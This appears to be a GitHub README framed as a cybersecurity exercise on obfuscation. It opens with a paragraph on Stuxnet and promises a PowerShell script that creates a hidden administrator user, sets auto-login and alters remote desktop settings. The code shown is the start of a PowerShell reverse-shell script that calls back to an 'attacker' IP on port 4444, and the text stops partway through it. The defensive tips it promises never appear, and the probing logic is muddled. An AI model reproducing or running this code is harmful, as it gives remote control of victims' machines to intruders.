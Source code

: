 Believed to be a joint effort between the United States and Israel, Stuxnet is one of the most complex cyberattacks ever discovered. It highlighted the potential for cyber warfare and the importance of advanced obfuscation techniques in infiltrating and compromising secure systems.

# Cybersecurity Exercise: Advanced Obfuscation Techniques
In this repository, we'll be diving into the critical role of cybersecurity in protecting digital assets and the techniques used by malicious actors to infiltrate and compromise secure networks. We'll cover a range of topics, including advanced obfuscation techniques and specific methods used to bypass security measures. Along the way, we'll emphasize the importance of physical security and provide practical tips for safeguarding against unauthorized access.

And don't worry, we won't leave you in the dark with complex theories and concepts. We've included a basic Microsoft Assembly (MASM) code example to illustrate the principle of obfuscation and a PowerShell script that enables you to create a new administrator user, auto-login, and modify the remote desktop registry. With these tools and techniques, you can better understand the importance of cybersecurity and learn effective ways to protect your digital assets.

# The Importance of Physical Security
Now, let's get real for a moment. You can have all the advanced digital techniques in the world, but if you're not implementing strong physical security measures, you're still at risk. Unsecured USB ports, unattended devices, and weak wireless network security can all provide easy entry points for attackers.

So, what can you do to prevent unauthorized access to your devices and networks? We'll provide practical tips and tricks to help you implement strong physical security measures and train your employees to recognize and avoid social engineering attacks.

# KEEP YOUR NETWORKS SECURE
## JUST HOW EASY IS IT TO HACK INTO A SERVER TERMINAL?

```PowerShell
# Set the attacker's IP address and port number
$attackerIP = "192.168.1.100"
$attackerPort = 4444

# Define an array of port numbers to check
$portsToCheck = @(
    21, # FTP
    22, # SSH
    23, # Telnet
    25, # SMTP
    80, # HTTP
    443 # HTTPS
)

# Loop through the array of port numbers
foreach ($port in $portsToCheck) {
    # Create a new TCP client object
    $client = New-Object System.Net.Sockets.TcpClient
    # Attempt to connect to the specified port on the attacker's machine
    $result = $client.BeginConnect($attackerIP, $port, $null, $null)
    # Wait for 500 milliseconds
    Start-Sleep -Milliseconds 500
    # Check if the connection was successful
    if ($client.Connected) {
        # Close the TCP client object
        $client.Close()
        # Print a message to the console indicating that the port is open
        Write-Host "Port $port is open!"
        # Create a new TCP client object to connect to the attacker's machine
        $client = New-Object System.Net.Sockets.TCPClient($attackerIP,$attackerPort)
```
